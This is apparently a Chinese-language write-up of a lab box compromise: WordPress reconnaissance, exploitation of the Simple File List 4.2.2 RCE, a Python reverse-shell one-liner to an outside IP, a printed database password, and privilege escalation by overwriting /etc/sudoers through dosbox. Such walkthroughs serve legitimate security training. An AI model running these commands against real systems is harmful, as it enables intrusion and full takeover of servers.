# 信息收集

## nmap



## 80-WordPress

nmap扫描可以得到wordpress 版本



`wpscan`工具是用来扫描`WordPress`漏洞的，通过wpscan扫描可以得到存在漏洞的插件，主题等

WordPress版本是5.5.1



主题版本为1.0.1，最新版本为1.5.2



插件`simple-file-list`最新版本为`6.1.13`当前版本为`4.2.2`

插件`tutor`最新版本为`3.2.3`当前版本为`1.5.3`



## 5000端口

5000端口扫目录也没有有用信息，只能得到一个后端信息



## 13000端口

登录信息以`get`方式上传，但好像输入什么都没反应



# 漏洞利用

## Simple-File-List-4.2.2---Remote-Code-Execution

https://github.com/hermh4cks/Wordpress-Plugin-Simple-File-List-4.2.2---Remote-Code-Execution.git

该插件存在远程代码执行，可以使用现成exp



运行该exp会上传一个后门，可以访问后门进行命令执行



## get-shell

可以执行该命令来反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.198",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```



查看`/etc/passwd`中有两个运用bash会话的用户，当前是`http`用户，需要先切换到`commander`用户再进行提权



在`wp-config.php`中有数据库连接密码，用户正好是`commander`



```
CommanderKeenVorticons1990
```

使用该密码切换用户可以成功切换



# 提权



可以任意文件写入，可以更改`sudoers`中`commander`用户的权限



```
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo commander    ALL=(ALL:ALL) ALL >c:$LFILE" -c exit
```

